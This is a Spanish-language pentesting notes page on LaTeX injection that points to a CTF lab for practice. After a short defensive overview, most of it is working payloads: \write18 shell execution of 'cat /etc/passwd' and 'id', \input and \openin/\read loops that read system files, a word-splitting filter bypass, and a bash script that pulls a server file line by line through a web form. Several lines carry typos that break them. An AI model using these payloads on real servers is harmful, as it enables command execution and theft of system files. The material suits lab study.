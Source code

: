 # Inyecciones LaTeX

Tags: #LaTexInjection #OWASP #Explotacion 

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en LaTeX. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Los ataques de inyección LaTeX ocurren cuando un atacante ingresa código LaTeX malicioso en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para aprovechar vulnerabilidades en la aplicación y **ejecutar código malicioso** en el servidor.

Un ejemplo de una inyección LaTeX podría ser un ataque que aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red.

Para evitar las inyecciones LaTeX, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el uso de LaTeX y cómo evitar la introducción de código malicioso.

A continuación, se os proporciona el enlace correspondiente al proyecto de Github que nos descargamos para desplegar un laboratorio vulnerable donde poder practicar esta vulnerabilidad:

-   **Laboratorio LaTeX Injection**: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)


## Comandos 

* [Latex-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)
* [0day-Latex](https://0day.work/hacking-with-latex/)

Cuando si podamos usar el comando **input**
```bash
\immediate\write18{cat /etc/passwd | bas64 > output}
\input{output}

# En nuestra maquina victima nos podemos pegar el resultado en base64 en un archvivo llamado 'data' y aplicar el siguiente comando
❯ cat data | tr -d '\n' | base64 -d; echo  
```

Una forma de 'burlar' es colocar la palabra en pedazos
```bash
\def\first{pep}
\def\second{ito}
\fist\second                                    # Aqui nos uniria las dos palabras
```

```bash
\input{/etc/passwd}                             # Leera el '/etc/passwd'
```
Aveces esta sanitizado con **--shell-escape** y no nos deja generar el pdf, ya que restringe los comandos **input|include**

Podemos hacerlo de otra manera
```bash
\newread\file                                   # Leera la primer linea del '/etc/passwd'
\openin\file=/etc/passwd
\read\file to\line                              # Si agregamos esta linea mas veces, podremos ver las lineas que siguen unicas
\text{\line}
\closein\file
```

```bash
\newread\file                                   # Leera la primer linea del '/etc/passwd'
\openin\file=/etc/passwd
\read\file to\lineA                            
\read\file to\lineB 
\text{\lineA\lineB}                             # Podremos ver la primer y segunda linea en una sola linea
\closein\file
```

```bash
\newread\file                                   # Leer por multiples lineas, pero aveces no le gusta algunos caracteres
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Una mejor alternativa para hacer el de multiple lineas es hacerlo de la siguiente manera:
```bash
❯ nvim get_files.sh
	#!/bin/bash

	# Variables globales 
	declare -r main_url = "http://localhosts/ajax.php"
	filename = $1

	if [$1]; then
		read_file_to_line = "%0A\read\file%20to\line"
		for i in $(seq 1 100); do
			file_to_download = $(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep -i download | awk 'NF{print $NF}')

			if [$file_to_donwload]; then 
				wget $file_to_download &>/dev/null
				file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
				pdftotext $file_to_convert
				file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
				rm $file_to_convert
				cat $file_to_read | head -n 1
				rm $file_to_read
				read_file_to_line+="%0A\read\file%20to\line"
			else 
				read_file_to_line+="%0A\read\file%20to\line"
			fi
		done
	else
		echo -e "\n[!] Uso: $0 /etc/passwd\n\n"
	fi 


# En codigo ASCII
	# %0A = \n  (salto de linea)
	# %20 = Espacio
```

```bash
\immediate\write18{id > output}             # Para poder ejecutar comandos, en eset caso sera el comando 'id'

\newread\file                               # Para leer en un archivo generado
\openin\file=output
\read\file to\line                              
\text{\line}
\closein\file
```

```bash
\immediate\write18{cat /etc/passwd > output.txt}             # Para poder ejecutar comandos y mirarlo en la web, en un archivo que se crea llamado output.txt en la ruta de 'localhost/compile/output.txt'
```